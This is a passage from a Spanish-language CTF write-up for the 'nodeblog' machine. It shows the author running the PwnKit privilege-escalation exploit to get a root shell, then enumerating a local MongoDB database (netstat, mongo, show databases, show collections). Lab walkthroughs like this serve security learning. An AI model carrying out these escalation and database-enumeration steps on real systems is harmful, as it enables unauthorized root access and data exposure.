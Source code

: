 ```ruby
admin@nodeblog:/tmp$ chmod +x PwnKit 
admin@nodeblog:/tmp$ ./PwnKit 
root@nodeblog:/tmp# whoami 
root
root@nodeblog:/tmp# 
```
Sin embargo, esta forma de escalar privilegios esta guarra, asi que lo haremos por la intencionada

### Via mongodb enumeration

Al principio del writeup les habia mencionado que el sitio web es muy probable que use **MEAN stack**, eso significa que usa:

- **M**: MongoDB
- **E**: ExpressJS
- **A**: AngularJS
- **N**: NodeJS

Y la neta tiene toda la pinta de que lo use, si mostramos por puertos abiertos y conexiones establecidas con el comando:

```ruby
netstat -a
```

Podemos ver que existe el puerto **27017**:

```ruby
tcp        0      0 nodeblog:27017          nodeblog:38938          ESTABLISHED
```

Si buscamos en google el puerto por defecto de MongoDB, nos saldra que es ese, y tambien en las conexiones establecidas, podremos ver una conexion con un archivo de MongoDB

```ruby
unix  2      [ ACC ]     STREAM     LISTENING     20468    /run/mongodb/mongodb-27017.sock
```

Entonces lo que queda es empezar a enumerar la base de datos, usando el comando **mongo** nos conectaremos a la base de datos, si usamos **show databases** veremos todas las bases de datos existentes:

```ruby
> show databases
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
```

Ahora usando **use blog** le indicaremos que haremos uso de la base de datos **blog**, despues usaremos **show collections** para mostrar todas las colecciones existentes en esa base de datos:

```ruby
> show collections
articles
users
```
